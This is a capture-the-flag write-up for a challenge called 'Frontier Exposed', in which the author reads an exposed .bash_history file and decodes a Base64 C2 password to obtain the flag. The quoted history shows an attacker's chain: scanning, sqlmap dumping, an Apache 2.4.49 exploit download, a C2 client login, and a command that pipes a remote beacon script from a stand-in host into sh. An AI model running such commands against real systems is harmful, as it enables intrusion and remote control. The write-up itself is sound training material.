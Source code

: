 # Frontier Exposed

## Objective

Analyze the exposed server files to uncover sensitive information and retrieve the flag.

---

## Initial Recon

The challenge provided the URL `http://83.136.254.158:43705/`, which hosts a number of files accessible via HTTP:

- `.bash_history`
- `.bash_logout`
- `.bashrc`
- `.profile`
- `dirs.txt`
- `exploit.sh`
- `nmap_scan_results.txt`
- `vulmap-linux.py`

### Enumeration of Files

The first step was to check the contents of `.bash_history`, a file that often contains a list of previously executed shell commands. Using the `curl` command, I retrieved its contents:

```bash
curl http://83.136.254.158:43705/.bash_history
```

### Contents of `.bash_history`

The file revealed a series of commands executed by the user on the system. The commands were as follows:

```plaintext
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html
```

---

## Analysis

The commands indicate several reconnaissance and exploitation attempts performed by the user. Notably, one command stood out:

```bash
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
```

Here, a `password` parameter is passed as Base64-encoded text. The password value is:

```
SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
```

### Decoding the Base64 String

To extract the plaintext password, I used the `base64` decoding command:

```bash
echo "SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9" | base64 --decode
```

This revealed the flag:

```
HTB{C2_cr3d3nt14ls_3xp0s3d}
```

---

## Conclusion

By analyzing the `.bash_history` file, I identified sensitive information, including credentials that were exposed during a command execution, this allowed me to retrieve the flag.

